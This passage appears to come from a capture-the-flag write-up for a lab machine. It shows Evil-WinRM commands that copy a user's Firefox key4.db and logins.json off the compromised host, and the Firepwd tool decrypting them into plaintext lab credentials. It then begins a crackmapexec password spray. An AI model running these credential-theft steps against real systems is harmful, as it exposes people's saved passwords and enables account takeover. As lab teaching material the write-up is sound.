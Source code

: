 ```Powershell
-a----        2/22/2022   2:42 AM            611 SiteSecurityServiceState.txt
-a----        2/22/2022   2:42 AM           4096 storage.sqlite
-a----        2/22/2022   2:40 AM             50 times.json
-a----        2/22/2022   2:40 AM          98304 webappsstore.sqlite
-a----        2/22/2022   2:42 AM            141 xulstore.json
```

We use Evil-WinRM to download to our machine and then try to crack it:
```Powershell
# We need to use the full path!
PS C:\Users\nikk37> download C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db key4.db
```

Download `logins.json`
```powershell
# We need to use the full path!
PS C:\Users\nikk37> download C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json logins.json
```

We can use [Firepwd](https://github.com/lclevy/firepwd) tool to crack the DB:
```bash
# We use -d to specify the directory where key4.db and logins.json are saved
$ python firepwd.py -d ../www/
...[SNIP]...
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```


### SMB password spray
Now that we have many users and passwords we can use crackmapexec to do a password spray. I got all the users we found so far in a file called `users.txt` and the same for passwords and put it in `password.txt`:
![](images/image05.png)
